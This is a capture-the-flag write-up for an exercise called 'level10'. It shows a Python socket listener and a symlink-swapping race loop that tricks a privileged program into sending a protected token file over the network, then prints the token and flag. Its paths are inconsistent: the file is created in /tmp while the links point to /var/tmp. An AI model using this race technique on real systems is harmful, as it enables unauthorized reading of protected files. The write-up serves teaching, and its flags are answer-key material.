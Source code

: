 HINT:
You need to create a server that can be used to retrieve the flag.

ANSWER:
when we first run level10 we see that we need to provide a file and a host, futhermore we see with strings that we need to make a server running on port 6969, so let's do that in python:
import socket
import sys

HOST = '0.0.0.0'
PORT = 6969

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((HOST, PORT))
    s.listen(1)
    while True:
        conn, addr = s.accept()
        print('Connected by', addr)
        while True:
            data = conn.recv(1024)
            if not data:
                break
            print(data)


if __name__ == '__main__':
    main()
Now let's try to run the program with ./level10 token 0.0.0.0:
You don't have access to token
Alright let's to make a symbolic link to the token file:
ln -fs /home/user/level10/token /tmp/fake
it still says that we dont have access to it therefore we need to trick it:
echo > /tmp/hack && while :; do ln -fs /var/tmp/hack /var/tmp/fake; ln -fs /home/user/level10/token /var/tmp/fake; done
This line will switch the symbolic link between two files, so we can trick the server to access the token file, then let's try to run the program:
./level10 /tmp/fake 0.0.0.0
we get:
woupa2yuojeeaaed06riuj63c
su flag10 and getflag:
feulo4b72j7edeahuete3no7c
